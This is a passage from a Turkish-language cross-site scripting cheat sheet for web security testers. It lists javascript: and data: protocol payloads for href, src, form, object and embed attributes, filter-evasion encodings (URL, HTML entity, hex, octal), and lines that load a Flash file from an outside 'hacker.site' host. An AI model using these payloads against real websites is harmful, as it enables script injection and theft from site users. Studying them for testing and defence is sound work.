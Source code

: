 ```javascript
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
**Bu protokolleri enjekte edebileceğiniz yerler**

**Genel olarak** `javascript:` protokolü, **`href`** özniteliğini kabul eden herhangi bir tagda **ve** **`src`** özniteliğini kabul eden çoğu tagda (ama `<img>` değil) **kullanılabilir**.
```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```
**Diğer obfuscation hileleri**

_**Bu durumda, bir öznitelik içinde olduğunuz için önceki bölümdeki HTML kodlama ve Unicode kodlama hilesi de geçerlidir.**_
```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```
Ayrıca, bu durumlar için başka bir **güzel numara** var: **`javascript:...` içindeki girdiniz URL kodlanmış olsa bile, çalıştırılmadan önce URL çözülür.** Yani, **tek tırnak** kullanarak **string**'den **kaçmak** gerekiyorsa ve **URL kodlandığını** görüyorsanız, **önemli değil,** çalıştırma sırasında **tek tırnak** olarak **yorumlanacaktır.**
```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
Not edin ki eğer **her ikisini de** `URLencode + HTMLencode` herhangi bir sırayla **payload**'ı kodlamak için denerseniz, bu **çalışmayacaktır**, ancak **payload** içinde **karıştırabilirsiniz**.

**`javascript:` ile Hex ve Octal kodlama kullanma**

**Hex** ve **Octal kodlama**'yı `iframe`'in `src` niteliği içinde (en azından) **JS çalıştırmak için HTML etiketleri** tanımlamak amacıyla kullanabilirsiniz:
```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```